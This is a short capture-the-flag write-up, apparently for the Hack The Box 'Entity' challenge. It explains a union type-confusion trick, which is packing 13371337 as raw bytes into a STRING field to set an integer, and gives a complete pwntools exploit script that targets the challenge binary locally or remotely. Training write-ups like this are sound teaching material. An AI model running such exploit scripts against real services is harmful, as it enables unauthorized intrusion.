 ## Exploit Strategy ✅

1. Choose `STORE_SET` (`T`)
2. Select field `STRING` (`S`)
3. Inject `p64(13371337)` — which sets the internal `.integer`
4. Finally, trigger `get_flag()` after that

### ⚠️ Manual Input Note

Typing `"13371337"` in STRING mode doesn’t work — it copies the ASCII bytes:
```
[0x31 0x33 0x33 0x37 0x31 0x33 0x33 0x37]
```
Which gives a completely different `unsigned long long`.

## Exploit Script 💣

```python
#!/usr/bin/env python3
from pwn import *
import argparse

context.binary = './entity'
elf = context.binary

def get_process(args):
    if args.host and args.port:
        return remote(args.host, int(args.port))
    return process(elf.path)

def build_payload():
    return p64(13371337)

def perform_exploit(p):
    log.info("Sending STORE_SET + STRING path to manipulate union value...")
    p.sendlineafter(b">> ", b"T")  # STORE_SET
    p.sendlineafter(b">> ", b"S")  # STRING

    payload = build_payload()
    p.sendlineafter(b">> ", payload)
    p.sendlineafter(b">> ", b"C")
    p.interactive()

def main():
    parser = argparse.ArgumentParser(description="Exploit for Entity challenge (HTB)")
    parser.add_argument('--host', help='Remote host', required=False)
    parser.add_argument('--port', help='Remote port', required=False)
    args = parser.parse_args()

    p = get_process(args)
    perform_exploit(p)

if __name__ == '__main__':
    main()
```
